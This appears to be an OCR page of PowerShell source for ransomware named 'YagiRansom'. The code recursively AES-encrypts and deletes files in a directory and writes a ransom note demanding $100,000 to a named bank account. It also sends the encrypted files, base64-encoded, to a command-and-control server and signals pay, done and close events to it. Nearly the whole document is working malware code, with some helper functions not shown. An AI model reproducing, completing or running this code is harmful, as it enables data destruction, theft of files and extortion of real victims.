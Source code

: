 ```powershell
function SendClose {
   Invoke-WebRequest -useb "$7CiB`:$UFX/close" -Method GET 2>&1> $null }
function SendPay {
   Invoke-WebRequest -useb "$7CiB`:$UFX/pay" -Method GET 2>&1> $null }
function SendOK {
   Invoke-WebRequest -useb "$7CiB`:$UFX/done" -Method GET 2>&1> $null }
function CreateReadme {
   $I26TXT = "All your files have been encrypted by YagiRansom!!`nBut don't worry, you can still recover them with the recovery key if you pay the ransom in the next 8 hours.`nTo get decryption instructions, you must transfer 100000$ to the following account:`n`nAccount Name: Mat tran To quoc Viet Nam - Ban Cuu Tro Trung uong`n`nAccount Number: 0011.00.1932418`n`nBank: Vietnam Joint Stock Commercial Bank for Foreign Trade (Vietcombank)`n"
   if (!(Test-Path "$Directory$slash$I26")) { Add-Content -Path "$Directory$slash$I26" -Value $I26TXT }}
function EncryptFiles { 
   $ExcludedFiles = '*.enc', 'yaginote.txt', '*.dll', '*.ini', '*.sys', '*.exe', '*.msi', '*.NLS', '*.acm', '*.nls', '*.EXE', '*.dat', '*.efi', '*.mui'
   foreach ($i in $(Get-ChildItem $Directory -recurse -exclude $ExcludedFiles | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) { 
   Invoke-AESEncryption -Key $WiETm -Path $i ; Add-Content -Path "$Directory$slash$I26" -Value "[!] $i is now encrypted" ;
   Remove-Item $i }
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch ; if (!$RansomLogs) { 
   Add-Content -Path "$Directory$slash$I26" -Value "[!] No files have been encrypted!" }}
function ExfiltrateFiles {
   Invoke-WebRequest -useb "$7CiB`:$UFX/files" -Method GET 2>&1> $null 
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "No files have been encrypted!" ; if (!$RansomLogs) {
   foreach ($i in $(Get-ChildItem $Directory -recurse -filter *.enc | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) {
      $Pfile = $i.split($slash)[-1] ; $B64file = R64Encoder -f $i ; $B64Name = R64Encoder -t $Pfile
      Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
   else { $B64Name = R64Encoder -t "none.null" ; Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
function CheckFiles { 
   $RFiles = Get-ChildItem $Directory -recurse -filter *.enc ; if ($RFiles) { $RFiles } else {
   Write-Host "[!] No encrypted files found!" -ForegroundColor Red }}
# Main
if ($Mode -eq "-d") { 
   Write-Host ; Write-Host "[!] Shutdowning...." -ForegroundColor Red; sleep 1 }
else {
   Write-Host ;
   Write-Host "[+] Checking communication with C2 Server.." -ForegroundColor Blue
   $DCe = GetStatus ; sleep 1
   $WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})
   Write-Host "[!] Encrypting ..." -ForegroundColor Red
   CreateReadme ; EncryptFiles ; if ($DCe) { SendResults ; sleep 1
   if ($ENyR -eq "-x") { Write-Host "[i] Exfiltrating ..." -ForegroundColor Green
      ExfiltrateFiles ; sleep 1 }}
   if (!$DCe) { Write-Host "[+] Saving logs in yaginote.txt.." -ForegroundColor Blue }
   else { Write-Host "[+] Sending logs to C2 Server.." -ForegroundColor Blue }}
   if ($args -like "-demo") { RemoveWallpaper ; PopUpRansom
   if ($PayNow -eq "True") { SendPay ; SendOK } else { SendClose ; SendOK }}
   else { SendOK }
sleep 1000 ; Write-Host "[i] Done!" -ForegroundColor Green ; Write-Host
```
